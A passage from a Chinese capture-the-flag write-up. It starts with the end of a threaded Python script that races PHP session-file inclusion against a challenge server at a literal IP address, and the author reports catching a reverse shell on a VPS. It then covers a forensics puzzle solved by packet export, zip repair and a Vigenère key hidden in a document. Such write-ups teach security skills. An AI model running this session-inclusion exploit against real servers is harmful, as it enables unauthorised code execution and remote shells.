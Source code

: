 ```python
        resp = session.post('http://119.23.247.96:45837/action.php?file=/tmp/sess_' + sessid, data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()


if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()
    event.set()
```
运行后立刻在vps上成功收到了反弹的shell（应该不用这么暴力也能解）  

## MISC 

### Misc | 复合 (277pt)
套娃题。

观察到可疑 HTTP 请求，导出响应文件。  
![wireshark](/img/wireshark.png)

发现所有的文件后缀都不符合真实的文件类型，逐一修改文件后缀名。  
其中 md 文件看文件尾能知道是 zip，但是它的文件头坏了。通过对比正常的 zip 文件，发现只是缺少了最开始的两个 bytes，手动补全即可。  
![files](/img/files.png)

解压缩 `pass.zip`，得到纯文本文件 `Eva`。  
![Eva](/img/Eva.png)

观察到大量的 `=E2=80=82`，有点像 unicode 控制字符，全部换成空格。行尾的 `=` 似乎代表着换行，全部删掉。这样就可以得到密文。

```txt
Emklyusg gni bvvymlag tsqic colz jxmoxvl tiwhz ebmee, Zhjeoig Krpvpi-Zgvlyvx Evdr or olv Rbtm bl Gcscckh une fz e tftstrtkdrx rxeb suv olfqx dpb tizh km kliq ox hsjr: mom luyik, kfx dwhrh-wi iympwagp, vru ral qzveomvlm. Aw fgc olrr fhvl nivpkf vhzr vvjjvqlpwagpn jrje pvgu xcijc vhbrmsmmvq bz vbz xj jrsea bukq wyk kxymye xj hvqvyqok xcid. Uav jrorb cfsgn knt oisn uahb vz mn pzix aw ok sgh? Nfh aznorzh zl plagkvi wtgxubvlmx qvbbjqak hvvvq gvb gxc os sc khbvurvp? Wjtn qf rmai zq yhvggwomt.Ygk euu gvyxfm bx vt xci kylr-weoiixvb btxrxeommc hm kbtxzqgmkhzl siymtggl knt xmycw vsivs xci mgkacr uj kekgxukr? Kzzr scyvzr seiexcw-jiek mimkgtaqikw ns xpxhbye migictzmq zlz ticlzcek, tccjgvpiay azvv dttwhypt xzkx-kzvbii, xiybumq zs nivi xmnvimzrtw bu iyr xcmeel, jiek sa trrblvgy tmsdgglvgrc vqflz aprs. Xj wlaa wmeysiw, kfx apbakcx fd kliqorb e emolt zgc nivk t wzblpdkrrx difzi jj kgfl. Eue wkieb avcey vzeuggn iouyo ayym umikv cegnxumq? Zldw hsxzbvur cej zxlv rrslyvlmsg ntwriicw vdrx xci pctya oe xcsjc pow hyi gmkckhbhxi dr dcwpknr iyytympwa. 
```

大小写、单词长度和标点符号都非常像自然语言。  
`e emolt zgc nivk t` 的 `e` 和 `t` 应该都是代表 `a`，也就是说这不是一一对应的置换。用 quipquip 也没有跑出结果。（密文是全可见字符，标点正确，明文推测也是全可见字符，且不是单表替换，因此）凭感觉是 Vigenère Encode，但是不知道 key 是什么，反正不是文件名 `Eva`。  
后来在 `flaggggggg.doc` 中找到了隐藏的白色小字，`Key:everything`。于是此题结束。  
